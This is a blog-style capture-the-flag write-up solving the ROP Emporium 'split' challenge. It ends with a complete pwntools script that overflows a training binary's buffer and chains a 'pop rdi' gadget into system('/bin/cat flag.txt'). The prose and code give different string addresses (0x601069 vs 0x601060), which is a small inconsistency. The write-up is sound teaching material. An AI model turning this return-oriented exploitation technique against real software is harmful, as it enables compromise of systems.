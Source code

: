 ```yaml
---
layout: post
title: ropemporium - split
date: 2024-12-23 09:00:00 +0300
description: # Add post description (optional)
img: split-1.png # (optional)
fig-caption: # Add figcaption (optional)
tags: ctf
---
```


The second challenge of Ropemporium consist of forging a little ROP chain in order to call the imported function "system" with specified parameters, found in a string in the code with the "**/bin/cat flag.txt**" value.

Checking the program protections first with *pwn checksec* we discovered the following protections:
- NX (Non executable stack)

![split]({{site.baseurl}}/assets/img/split-1.png)

Then we identified the imported functions using *rabin2* in order to check the "*system*" functing being properly imported.

![split]({{site.baseurl}}/assets/img/split-2.png)

Then, checking for the functions that the program have, we discovered the function named "*usefulFunction*".

![split]({{site.baseurl}}/assets/img/split-3.png)

Disassembling the functions with _gdb_, we found that the code is just putting a random value inside **EDI**, then calling "*system*" function (the string in question is just "**/bin/ls**").

![split]({{site.baseurl}}/assets/img/split-4.png)

The challenge here is to pass a proper parameter in order to call the "**system**" function, so we could read the flag.

Searching for specific instructions that the challenge gave us, we found an interesting string named "**usefulString**" with the "**/bin/cat flag.txt**" inside of it:

![split]({{site.baseurl}}/assets/img/split-5.png)
![split]({{site.baseurl}}/assets/img/split-6.png)

We could find the address of "**usefulString**":
![split]({{site.baseurl}}/assets/img/split-7.png)
```
0x601069
```

Great! Now we just combine that as a parameter with a gadget found in a way to push that value to the RDI register as we can see in the function calling convention.

![split]({{site.baseurl}}/assets/img/split-8.png)

Checking for gadgets we could use inside the code, we found a gadget really adequate for our needs:

![split]({{site.baseurl}}/assets/img/split-9.png)

### Getting its address
```
0x4007c3
```

Now we can create a payload with the following logic to exploit the code and run the desired system with the parameters to cat our way to the flag.

### Forging the ROP chain to inject
{% highlight python %}
(Buffer fill) + ('pop rdi; ret' gadget) + ('/bin/cat flag/txt' address) + ('system' function address)
{% endhighlight %}

Giving us the final exploitation code:
{% highlight python %}
from pwn import *

POP_RDI = 0x4007c3
CAT_FLAG = 0x601060
SYSTEM_FUNC = 0x40074b


elf = context.binary = ELF('./split')

io = process(elf.path)

info("Sending 128 byte cyclic pattern")
io.send(cyclic(128))

info("Awaiting program to crash...")
io.wait()

info("Dumping corefile")
core = io.corefile
stack = core.rsp

pattern = core.read(stack, 8)
info("%r : Pattern found", pattern)

info("Creating payload...")

rop = p64(POP_RDI)+p64(CAT_FLAG)+p64(SYSTEM_FUNC)

payload = flat({pattern: rop})

info("Sending Payload: %r", payload)

io = process(elf.path)
io.sendline(payload)
io.interactive()
{% endhighlight %}

Running it we could obtain the flag:
![split]({{site.baseurl}}/assets/img/split-10.png)